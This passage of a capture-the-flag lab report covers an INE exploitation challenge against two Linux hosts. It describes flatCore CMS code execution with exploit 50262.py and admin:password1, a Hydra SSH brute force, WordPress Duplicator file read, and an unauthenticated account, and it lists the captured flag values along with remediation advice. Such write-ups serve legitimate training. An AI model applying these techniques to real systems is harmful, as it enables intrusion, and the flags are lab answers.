| **VULN-04** | Insecure System User Account Requiring No Authentication | `target2.ine.local` (22/tcp) | **Not independently assessed** | [CWE-306](https://cwe.mitre.org/data/definitions/306.html)<br>[CWE-287](https://cwe.mitre.org/data/definitions/287.html) | Direct interactive shell session established without credential verification (`iamacrazyfreeuser`). |

---

### Detailed Findings Breakdown

#### VULN-01: flatCore CMS Authenticated Remote Code Execution (CVE-2021-39608)
- **CWE Identifier**: [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)
- **Severity Rating**: **High**
- **NVD CVSS v3.1 Score & Vector**: **7.2** (`CVSS:3.1/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:H/A:H`)
- **Affected System**: `target1.ine.local` (HTTP Port 80 / flatCore CMS).
- **Observed Evidence**: The Python exploit `50262.py` authenticated as `admin:password1` and successfully deployed an interactive web shell, executing `cat /flag1.txt` and extracting `FLAG1{22851f68cec54ec0b4ff4773c5dc9497}`. The exploit script is associated with flatCore CMS 2.0.7; the exact installed version was not independently fingerprinted from banners, but successful execution confirms the presence of the vulnerable flatCore component.
- **Security Impact**: Allows remote authenticated users with administrative privileges to upload arbitrary PHP scripts and execute commands under the web server daemon context (`www-data`).
- **Remediation**: Upgrade flatCore CMS to the latest release, enforce strict server-side file extension whitelisting, and restrict script execution permissions in web upload directories.

#### VULN-02: Weak System User Password over SSH (`iamaweakuser`)
- **CWE Identifier**: [CWE-521: Weak Password Requirements](https://cwe.mitre.org/data/definitions/521.html)
- **Severity Rating**: **High**
- **Affected System**: `target1.ine.local` (OpenSSH Port 22).
- **Observed Evidence**: Hydra cracked the password for user `iamaweakuser` in ~11 seconds across 1,009 attempts using `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`. The rapid completion of attempts without failure indicates an observation that no effective rate limiting obstructed the recorded attempts; the confirmed vulnerability is the use of a weak, dictionary-guessable password (CWE-521).
- **Security Impact**: Grants interactive remote shell access (`/bin/bash`) to the host, permitting host enumeration and user-level file access.
- **Remediation**: Enforce robust password length and complexity policies, implement public-key-only authentication for SSH, and deploy dynamic rate-limiting tools such as `fail2ban`.

#### VULN-03: WordPress Duplicator Plugin Arbitrary File Read / Directory Traversal (CVE-2020-11738)
- **CWE Identifier**: [CWE-22: Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal')](https://cwe.mitre.org/data/definitions/22.html)
- **Severity Rating**: **High**
- **NVD CVSS v3.1 Score & Vector**: **7.5** (`CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N`)
- **Affected System**: `target2.ine.local` (HTTP Port 80 / WordPress Duplicator plugin).
- **Observed Evidence**: Metasploit module `auxiliary/scanner/http/wp_duplicator_file_read` traversed directories and downloaded `/flag3.txt` directly without requiring authentication. While the specific plugin version (1.3.24–1.3.26) was not printed in an explicit version banner, successful execution of the module confirms the presence of the unauthenticated file read vulnerability.
- **Security Impact**: Discloses arbitrary sensitive server files, configuration files, and application data to unauthenticated external actors. This vulnerability permits arbitrary file read and directory traversal; it does not inherently grant remote code execution.
- **Remediation**: Update the WordPress Duplicator plugin to version 1.3.28 or higher, remove unused plugins, and restrict web server read permissions across sensitive file system paths.

#### VULN-04: Insecure System User Account Requiring No Authentication (`iamacrazyfreeuser`)
- **CWE Identifier**: [CWE-306: Missing Authentication for Critical Function](https://cwe.mitre.org/data/definitions/306.html) & [CWE-287: Improper Authentication](https://cwe.mitre.org/data/definitions/287.html)
- **Severity Rating**: **Not independently assessed**
- **Affected System**: `target2.ine.local` (OpenSSH Port 22 / User Account).
- **Observed Evidence**: Direct interactive shell access was established as `iamacrazyfreeuser@target2:~$` without credential verification, fulfilling the lab objective. Screenshot 08 confirms the active shell and extraction of `flag4.txt`. The specific underlying handshake mechanism (such as whether SSH logged in with an empty password string or omitted the password prompt entirely) was not displayed in the captured terminal view; the unauthenticated access is directly confirmed by the active session.
- **Security Impact**: Complete compromise of the user account and interactive shell access over network protocols without credential verification.
- **Remediation**: Audit all system accounts in `/etc/shadow` to ensure no accounts have empty or disabled passwords, enforce strong authentication for all interactive logins, and ensure remote administrative services do not permit unauthenticated access.

---

## 11. Lessons Learned

1. **Defense-in-Depth for Administrative Web Backends**:
   Administrative web applications frequently offer extensive administrative utilities that can be weaponized into code execution when paired with default or weak credentials (`admin:password1`). Web administration consoles must be shielded behind multi-factor authentication (MFA) and restricted by network access control lists (ACLs).

2. **WordPress Plugin Lifecycle Management**:
   Third-party plugins constitute the most prevalent attack surface in CMS deployments. A single outdated plugin (Duplicator) completely undermines host confidentiality through unauthenticated path traversal. Systematic plugin auditing, automatic updates, and minimal plugin footprint are vital.

3. **Remote Service & Account Hardening**:
   SSH exposed to untrusted networks without rate limiting allows adversaries to compromise interactive user shells via automated dictionary attacks. Furthermore, accounts configured without authentication requirements present severe security risks. Enforcing public-key authentication, eliminating passwordless accounts, and deploying automated intrusion prevention eliminates both brute-force and unauthenticated entry vectors.

---

## 12. Remediation and Security Recommendations

### Prioritized Remediation Roadmap

```text
+---------------------------------------------------------------------------------------------------+
|                                  PRIORITIZED REMEDIATION ROADMAP                                  |
+---------------------------------------------------------------------------------------------------+
| 1. Account & Remote Service Hardening (Target 1 & Target 2):                                      |
|    - Audit /etc/shadow on all systems to ensure zero accounts permit unauthenticated access.     |
|    - Configure OpenSSH daemon to require authentication and reject empty credentials:             |
|        PermitEmptyPasswords no                                                                    |
|        PasswordAuthentication no                                                                  |
|        PubkeyAuthentication yes                                                                   |
|    - Deploy fail2ban to dynamically ban IPs exhibiting repeated failed logon attempts.            |
|                                                                                                   |
| 2. Web Application & Plugin Patching:                                                             |
|    - Upgrade flatCore CMS on target1 to the latest release (>= 2.1.0).                            |
|    - Update WordPress Duplicator plugin on target2 to version >= 1.3.28.                          |
|    - Restrict write and script execution permissions across web document roots.                   |
|                                                                                                   |
| 3. Credential & Access Governance:                                                                |
|    - Enforce 16+ character passphrases for all application and system accounts.                   |
|    - Force credential rotation for administrative accounts (admin).                               |
|    - Segment administrative web panels to internal management VLANs or VPN bastions.             |
+---------------------------------------------------------------------------------------------------+
```

---

## 13. Evidence and Screenshot Index

All primary evidence has been cataloged chronologically from initial overview through Flag 4 retrieval:

| # | Filename | Original Source | Description & Key Evidence |
| :---: | :--- | :--- | :--- |
| **01** | `01-lab-overview.png` | `WhatsApp Image 2026-11-18 at 12.52.46 PM (10).jpeg` | INE challenge dashboard displaying 4 of 4 flags captured, objectives, and lab tools. |
| **02** | `02-flag1-target1-webapp-exploit-and-flag.png` | `WhatsApp Image 2026-11-18 at 12.52.45 PM.jpeg` | Execution of `50262.py` against flatCore CMS; retrieval of `FLAG1{22851f68cec54ec0b4ff4773c5dc9497}`. |
| **03** | `03-flag2-target1-passwd-user-discovery.png` | `WhatsApp Image 2026-11-18 at 12.52.46 PM.jpeg` | Inspection of `/etc/passwd` via web shell, revealing user `iamaweakuser`; clean session exit. |
| **04** | `04-flag2-target1-ssh-hydra-bruteforce.png` | `WhatsApp Image 2026-11-18 at 12.52.46 PM (1).jpeg` (Archived in local evidence archive) | Hydra dictionary attack against SSH on Target 1 cracking `iamaweakuser` password (redacted in copy). |
| **05** | `05-flag2-target1-ssh-login.png` | `WhatsApp Image 2026-11-18 at 12.52.46 PM (4).jpeg` | Interactive SSH login as `iamaweakuser@192.107.52.3`, Ubuntu 20.04.6 LTS banner. |
| **06** | `06-flag2-target1-flag2-retrieval.png` | `WhatsApp Image 2026-11-18 at 12.52.46 PM (2).jpeg` | Directory listing in `/home/iamaweakuser`; extraction of `FLAG2{a8880f9df2594f17876dd2e394b0921e}`. |
| **07** | `07-flag3-target2-wp-duplicator-exploit-flag3.png` | `WhatsApp Image 2026-11-18 at 12.52.46 PM (8).jpeg` | Metasploit Duplicator LFI module reading `/flag3.txt`; extraction of `FLAG3{dcbe5274daff4827a8a5d3214a4e0bf4}`. |
| **08** | `08-flag4-target2-unauthenticated-user-flag4.png` | `WhatsApp Image 2026-11-18 at 12.52.46 PM (6).jpeg` | Interactive session as `iamacrazyfreeuser@target2` requiring no authentication; extraction of `FLAG4{4834bdaaa6574006bcbb989a0f8e284d}`. |

---

## 14. Final Summary

The **Host & Network Penetration Testing: Exploitation CTF 1** assessment demonstrated a comprehensive range of host-based exploitation techniques across dual Linux targets:

1. **Target 1 (`target1.ine.local` / `192.107.52.3`):**
   - **Flag 1:** Compromised flatCore CMS via authenticated RCE script `50262.py` (associated with CVE-2021-39608) using administrative credentials (`admin:password1`), extracting `FLAG1{22851f68cec54ec0b4ff4773c5dc9497}` from `/flag1.txt`.
   - **Flag 2:** Leveraged the interactive web shell to enumerate `/etc/passwd`, identified system user `iamaweakuser`, cracked the user's weak SSH password in 11 seconds via Hydra, and retrieved `FLAG2{a8880f9df2594f17876dd2e394b0921e}` from `/home/iamaweakuser/flag2.txt`.

2. **Target 2 (`target2.ine.local` / `192.107.52.4`):**
   - **Flag 3:** Leveraged an unauthenticated directory traversal vulnerability in the WordPress Duplicator plugin (CVE-2020-11738) via Metasploit, extracting `FLAG3{dcbe5274daff4827a8a5d3214a4e0bf4}` from `/flag3.txt`.
   - **Flag 4:** Identified the system user `iamacrazyfreeuser` requiring no authentication, established an interactive shell session without credential prompts, and retrieved `FLAG4{4834bdaaa6574006bcbb989a0f8e284d}` from `/home/iamacrazyfreeuser/flag4.txt`.

All four challenge objectives were successfully captured and verified character-for-character against primary screenshot evidence, validating full exploitation of both target environments.
